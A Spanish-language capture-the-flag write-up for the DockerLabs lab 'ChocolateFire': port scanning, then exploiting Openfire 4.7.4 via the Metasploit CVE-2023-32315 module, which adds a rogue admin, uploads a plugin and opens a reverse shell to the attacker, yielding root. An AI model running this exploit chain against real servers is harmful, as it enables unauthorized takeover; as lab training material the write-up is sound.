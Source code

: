 # 🖥️ Writeup - ChocolateFire 

**Plataforma:** Dockerlabs   
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip chocolatefire.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh chocolatefire.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sC -sV -p5262,5269,7070,9090,5275 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-08 19:18 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000080s latency).
Not shown: 65523 closed tcp ports (reset)
PORT     STATE SERVICE        VERSION
22/tcp   open  ssh            OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
5222/tcp open  jabber
5223/tcp open  ssl/hpvirtgrp?
5262/tcp open  jabber         Ignite Realtime Openfire Jabber server 3.10.0 or later
5263/tcp open  ssl/unknown
5269/tcp open  xmpp           Wildfire XMPP Client
5270/tcp open  xmp?
5275/tcp open  jabber         Ignite Realtime Openfire Jabber server 3.10.0 or later
5276/tcp open  ssl/unknown
7070/tcp open  http           Jetty
7777/tcp open  socks5         (No authentication; connection failed)
9090/tcp open  http           Jetty

MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 165.53 seconds
```

El único puerto que expone un servicio web abierto es el `9090`.

Al acceder desde el navegador, encontramos un panel de `login` de `Openfire`, que además indica que la versión instalada es la `4.7.4`.

A continuación, abrimos `Metasploit` para comprobar si existe algún exploit compatible con esta versión.

# EXPLOTACIÓN

```bash
msfconsole -q
```

Tras realizar la búsqueda, seleccionamos el segundo exploit disponible.

```bash 
search openfire
```

Info:
```
Matching Modules
================

   #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/multi/http/openfire_auth_bypass                     2008-11-10       excellent  Yes    Openfire Admin Console Authentication Bypass
   1    \_ target: Java Universal                                 .                .          .      .
   2    \_ target: Windows x86 (Native Payload)                   .                .          .      .
   3    \_ target: Linux x86 (Native Payload)                     .                .          .      .
   4  exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315  2023-05-26       excellent  Yes    Openfire authentication bypass with RCE plugin


Interact with a module by name or index. For example info 4, use 4 or use exploit/multi/http/openfire_auth_bypass_rce_cve_2023_32315
```


```bash
use 4
show options
set LHOST <NUESTRA IP>
set RHOSTS 172.17.0.2
run
```
Info:
```
[*] Started reverse TCP handler on 10.0.4.12:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Openfire version is 4.7.4
[*] Grabbing the cookies.
[*] JSESSIONID=node0byjr7g6fx8fi14pcejjlp50yi27.node0
[*] csrf=HPKXRCQQlxhVu4I
[*] Adding a new admin user.
[*] Logging in with admin user "aixjxwvim" and password "r0TLSO3xf".
[*] Upload and execute plugin "YUZXWL4DcGP3" with payload "java/shell/reverse_tcp".
[*] Sending stage (2952 bytes) to 172.17.0.2
[!] Plugin "YUZXWL4DcGP3" need manually clean-up via Openfire Admin console.
[!] Admin user "aixjxwvim" need manually clean-up via Openfire Admin console.
[*] Command shell session 1 opened (10.0.4.12:4444 -> 172.17.0.2:40304) at 2025-09-08 19:38:36 +0200

```

Al ejecutarlo, conseguimos abrir una `command shell` en la máquina víctima.

```bash
/bin/bash -i
root@39c37e58b12b:~# whoami
root
```

Ya somos root!